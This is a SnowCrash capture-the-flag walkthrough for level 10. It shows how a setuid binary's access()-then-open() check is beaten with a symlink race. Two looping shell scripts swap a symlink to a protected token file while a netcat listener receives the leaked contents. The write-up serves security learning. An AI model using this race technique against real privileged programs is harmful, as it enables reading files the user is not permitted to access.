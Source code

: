 
## Level 10



## Clues


Same type of problem we have here:

```
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
level10@SnowCrash:~$
```

Lets see what the executable does :

```
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
level10@SnowCrash:~$ echo "hello" > /tmp/file
level10@SnowCrash:~$ ./level10 /tmp/file 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
level10@SnowCrash:~$
```
```
level10@SnowCrash:~$ strace ./level10 /tmp/hello 127.0.0.1
write(1, "Connecting to 127.0.0.1:6969 .. ", 32Connecting to 127.0.0.1:6969 .. ) = 32
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(6969), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
write(3, ".*( )*.\n", 8)                = 8
write(1, "Connected!\n", 11Connected!
)            = 11
write(1, "Sending file .. ", 16Sending file .. )        = 16
open("/tmp/hello", O_RDONLY)            = 4 //Open our file
read(4, "hehe\n", 4096)                 = 5
write(3, "hehe\n", 5)                   = 5
write(1, "wrote file!\n", 12wrote file!
)           = 12
```
The executable seems able to send file to host, using the 6969 port, lets make another ssh connection in order to listen to it.

```
level10@SnowCrash:~$ ./level10 /tmp/file 127.0.0.1
Connecting to 127.0.0.1:6969 .. Connected!
Sending file .. wrote file!
level10@SnowCrash:~$
```

```
level10@SnowCrash:~$ nc -lk 6969
.*( )*.
hello

```

So it reads our file and send us the content, it also send us a banner ```.*( )*.``` maybe for the sake of the socket connection.


## Solution


So we must crack that executable so it opens the token file, reads it and send it to us.


```
level10@SnowCrash:~$ ./level10 token 127.0.0.1
You don't have access to token
level10@SnowCrash:~$
```

Lets check how the program check the permission.

```
level10@SnowCrash:~$ ltrace ./level10 token 127.0.0.1
access("token", 4)                                                        = -1
printf("You don't have access to %s\n", "token"You don't have access to token
)                          = 31
level10@SnowCrash:~$
```

It is using an access, lets try with a symlink.

```
level10@SnowCrash:~$ ln -sf token /tmp/faketoken
level10@SnowCrash:~$ ./level10 /tmp/faketoken 127.0.0.1
You don't have access to /tmp/faketoken
level10@SnowCrash:~$
```

Not working...

We dont have the right permission of the executable, so we can't change his assembly code in order to modify his ```if``` statement.

I also tried to use breakpoint with GDB, to succeed the first access() call, and then change the symlink to the token file, it is working, but the open() function calls fail, since using a debugger to an SSUID binary, will remove his elevated permission.

![Snowcrash](./GDBtry.png)

From this point i didn't saw any breach to look for.

So i thought that if we did the exact same thing, but without a debugger it would work.

The only way to make it possible is to use a brute force script that will constantly change the symlink, and another one that will call the executable in a loop.

With those script, an offset will be created, and the program might get tricked to open the token file.


![Snowcrash](./ScriptWork.png)

symlink.sh file :
```
ln -sf /tmp/hello token
ln -sf ~/token token
/tmp/symlink.sh
```

request.sh :
```
./level10 /tmp/token 127.0.0.1
/tmp/request.sh
```


Lets launch both of the script and check for the result:

```
nc -lk 6969

.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
```

The result may depend of the computer performance, but its working, and it was really a tough one.


## What i learned 

Searching for vulnerabilities is time consuming and frustrating, and can lead to days without any discoveries.

You can actually change condition by editing the assembly code, like jump if equal, to jump if not equal, by editing the executable with vim -b.

More reverse engineering practice.

Perseverance and more curiosity.